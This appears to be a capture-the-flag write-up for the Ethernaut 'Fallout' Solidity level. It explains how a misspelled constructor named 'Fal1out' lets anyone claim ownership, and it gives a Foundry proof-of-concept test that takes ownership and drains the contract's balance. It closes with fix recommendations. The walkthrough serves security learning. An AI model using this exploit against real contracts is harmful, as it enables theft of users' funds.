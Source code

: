 # Level 2 - Fallout

## Objectives

- claim ownership of the contract

## Contract Overview

The `Fallout` contract works like a bank. It allows users (allocators) to
allocate ether into their separate balances.

- User can deposit money via `allocate()` function.
  - Their allocation will be saved in the `allocations` mapping.

```solidity
  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }
```

- Users can withdraw the money at any time via the `sendAllocation()` function
  by specifying themselves as the beneficiary in the function parameter.
- Users can also send their allocations to other allocators (they need to be
  present in the mapping) via the same `sendAllocation()` function.

  ```solidity
  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }
  ```

- The owner of the `Fallout` contract can withdraw all of the gathered funds at
  any time via the `collectAllocations()` function.
  ```solidity
  function collectAllocations() public onlyOwner {
  msg.sender.transfer(address(this).balance);
  }
  ```
- User can check the current balance of any allocator via the `allocatorBalance()` function.
  ```solidity
  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
  ```

## Finding the weak spots

The method has a comment that mentions that it's the contructor. Constructor methods run only right after the contract is deployed and they're commonly used to initialize the contract's state, like assigning an owner in this case. Constructors are declared using the constructor keyword or a function with the same name as the contract, in this case `Fallout`.

This contract is using solidity `^0.6.0` where construct should have the same name as name of contract so it should be named `Fallout()` but we have a misspelt here because what looks like the constructor is just a misspelt function `Fal1out` that can be called by anyone to claim ownership.

In other words the contract does not use the `constructor()` function, but instead a publicly accessible function named Fal1out(). Any account that sends some Ether to this function will be set as the new owner of the contract.

```solidity
  /* constructor */
  function Fal1out() public payable { // <-- this line over here
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

## Potential attack scenario (hypothesis)

Attacker can call the faulty constructor and claim ownership of the contract. He can then withdraw all the allocations. This way he will drain the contract balance.

## Plan of the attack

1. Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
2. Attacker as owner can withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/02-Fallout.t.sol))

```solidity
        // Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
        emit log_string("Calling Fal1out() function");
        falloutContract.Fal1out{value: 1}();

        emit log_named_address(
            "New owner of the contract: ",
            falloutContract.owner()
        );

        // Attacker as owner can withdraw all the funds
        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(falloutContract).balance
        );

        emit log_string("Calling collectAllocations() function");
        falloutContract.collectAllocations();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(falloutContract).balance
        );

        // Test assertion
        assertEq(falloutContract.owner(), attacker);

        assertEq(address(falloutContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallout.png)

## Recommendations

1. \[CRITICAL\] The constructor of the `Fallout` contract should be fixed. Here
   is an example fix:

```solidity
constructor () public payable {
	owner = msg.sender;
	allocations[owner] = msg.value;
}
```

2. The emission of events should be added to the critical contract functions
   that modify the state of the contract. This will allow for better
   communication with off-chain components. It will also provide users with a
   better sense of what is happening inside the contract.
3. The use of OpenZeppelin TimelockController is recommended on
   `collectAllocations()` function to provide a better user experience and
   increase safety.

```

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/1.-fallback-fallback-function

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
```
